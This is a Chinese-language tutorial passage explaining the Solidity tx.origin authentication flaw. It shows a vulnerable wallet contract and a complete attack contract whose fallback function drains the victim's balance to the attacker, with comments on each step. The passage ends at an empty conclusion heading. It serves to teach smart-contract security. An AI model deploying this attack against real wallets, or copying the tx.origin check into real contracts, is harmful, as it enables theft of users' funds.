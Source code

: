 ### 正常合約尚未 Deploy，建立合約實例觸發 Constructor。

#### 漏洞合約解釋

```solidity=
pragma solidity ^0.4.11;

contract TxUserWallet {
    address owner;
    // constructor 會在合約被 new 的時候被呼叫
    function TxUserWallet() public {
        owner = msg.sender; // msg.sender 是 呼叫者
        //呼叫者呼叫攻擊者合約，裡面呼叫了 new TxUserWallet 建立了 TxUserWallet 合約實例，因此觸發了此 constructor。
    }

    function transferTo(address dest, uint amount) public {
        // tx.origin 指的是發起整個合約操作的人，
        // 所以 tx.origin 會指向 呼叫者
        // 因此會通過 require 檢查
        require(tx.origin == owner);
        // 透過 攻擊合約呼叫 transferTo 時，
        // 傳入的 dest 為 攻擊者的地址，因此會將錢轉給攻擊者。
        dest.transfer(amount);
    }
}
```

#### 攻擊合約解釋

```solidity=
pragma solidity ^0.4.11;

interface TxUserWallet {
    function transferTo(address dest, uint amount) public;
}

contract TxAttackWallet {
    address owner;
    // 攻擊合約 Deploy 時觸發，因此 owner 為攻擊者地址
    function TxAttackWallet() public {
        owner = msg.sender;
    }
    // 擁有者呼叫此合約時，會自動呼叫 fallback function
    // 呼叫 TxUserWallet 的 transferTo function(攻擊者地址,金額)
    // 這邊的 TxUserWallet(msg.sender) 當作是建立 TxUserWallet 合約實例，因為通過驗證所以會將錢轉到 攻擊者帳戶 中。
    function () public {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```

## 結論

